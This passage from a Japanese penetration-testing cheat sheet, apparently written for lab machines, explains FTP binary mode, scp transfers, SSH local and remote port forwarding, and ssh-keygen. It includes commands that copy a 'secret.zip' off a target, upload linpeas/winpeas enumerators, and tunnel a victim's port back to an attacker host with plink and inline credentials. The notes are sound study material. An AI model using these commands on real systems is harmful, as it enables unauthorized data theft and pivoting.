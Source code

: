 また、ファイルをダウンロードする際には、バイナリモードにしておくとトラブルを避けられる可能性がある。
```
ftp> binary
```

## SSH(22)
### scp
sshを利用したファイルの受け渡し。
```
ダウンロード
# Linux
scp charix@10.10.10.84:/home/charix/secret.zip .
# Windows
scp ariah@192.168.79.99:C:/ftp/Infrastructure.pdf . 
```
```
アップロード
# Linux
scp linpeas.sh charix@10.10.10.84:/home/charix/secret.zip
# Windows
scp winpeas.exe ariah@192.168.79.99:C:/Users/ariah/Desktop
```

### SSHポートフォワーディング
#### ローカルポートフォワーディング
対象マシンの特定のポートで作動しているサービスをlocalhostでアクセスできるようにする。  
相手のsshサーバから自分のローカルホストへ引き寄せる。  
コマンドは自分のホストで発行。
```
kali@kali:$ ssh -L 8000:127.0.0.1:8000 charix@10.10.10.84
```
- -L...[相手の動作しているポート番号(対象マシン):ローカルホストアドレス(自分のマシン):ローカルで展開するポート番号(自分のマシン)]

#### リモートポートフォワーディング
対象マシンの特定のポートで作動しているサービスをlocalhostでアクセスできるようにする。  
自分のsshサーバへ飛ばす。  
コマンドは相手のホストで発行。
```
kali@kali:~$ sudo systemctl start ssh
```
```
ssh -R 8888:127.0.0.1:8888 kali@10.10.14.11
plink.exe -ssh -R 8888:127.0.0.1:8888 -l kali -pw kali 10.10.14.11
```
- -ssh...sshを介して
- -R...[相手の動作しているポート番号(自分のマシン):ローカルホストアドレス(対象マシン):サービスが展開されているポート(対象マシン)]
- -l...攻撃者のユーザ名
- -pw...攻撃者のパスワード

### ssh-keygen
```
ssh-keygen -t rsa -f id_rsa
chmod 600 id_rsa
```
- -t...暗号の種類(ed25519,rsaなど)
- -b...ビット数の固定(-t rsa -b 4096など)
- -f...ファイル名(id_????の?部分)
